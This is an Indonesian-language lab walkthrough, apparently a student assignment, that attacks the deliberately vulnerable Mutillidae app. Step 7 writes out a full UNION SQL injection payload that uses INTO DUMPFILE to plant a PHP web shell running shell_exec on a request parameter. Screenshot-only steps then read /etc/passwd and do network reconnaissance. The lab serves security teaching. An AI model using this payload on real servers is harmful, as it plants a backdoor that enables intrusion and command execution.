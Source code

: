 1. Melihat database pada mutillidae. 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20database%20dan%20use%20owasp10.PNG "DATABASES PADA MUTILLIDAE")
  
   2. Melihat tabel database owasp10
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20tables%20owasp10.PNG "TABEL PADA OWASP10")
  
   3. Melihat field pada tabel account
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/desc%20accounts.PNG "FIELD TABEL ACCOUNT")
  
   4. Buka mutillidae pada browser
   5. Menuju menu user info. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
   6. Inspect elemen pada textbox name, lalu ubah size.
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/inspect%20elemet%20100.PNG "INSPECT ELEMEN dan UBAH SIZE")
  
   7. Melakukan Backdoor Union SQL Union Injection. Bertujuan untuk membuat file axecute_command.php. Dengan perintah " ' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' --  "
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/hasil%20execue%20command.PNG "Membuat file execute_command.php")
  
   8. Membuka execute_command.php
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_1.PNG "Membuka execute_command.php")
  
   9. Mengetahui siapa yang log in
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_2.PNG "Mengetahui siapa yang log in")

  10. Exploring /etc/passwd
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_3.PNG "Exploring /etc/passwd")
  
  11. Network Reconnaissance
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_4.PNG "Network Reconnaissance")
  

